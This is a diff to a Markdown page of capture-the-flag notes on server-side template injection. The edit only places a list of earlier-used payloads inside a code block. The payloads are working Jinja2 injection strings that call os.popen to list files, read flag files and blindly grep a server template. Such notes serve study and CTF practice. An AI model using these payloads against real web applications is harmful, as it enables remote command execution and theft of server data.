

Before and after one commit to CoderZonora/Cryptonite_Web, a Markdown page: Others/SSTI.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/Others/SSTI.md
+++ b/Others/SSTI.md
@@ -161,8 +161,8 @@ Razor (.Net):
 
 ```
 
-Some payloads used earlier:
-
+Some payloads used earlier in some challenges:
+```
 {{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}} - Gives list of files in directory
 
 {{request.application.__globals__.__builtins__.__import__('os').popen('flag.txt').read()}}
@@ -170,6 +170,7 @@ Some payloads used earlier:
 {{__self__.__init__.__globals__.__builtins__.__import__('os').popen('flag.txt').read()}}
 
 {% if request.application.__globals__.__builtins__.__import__('os').popen('grep -io flag.*\} ./app/templates/admin.html').read().startswith('" + str(x) + "') %} found {% endif %}
+```
 
 Further Refrences:
 https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
````
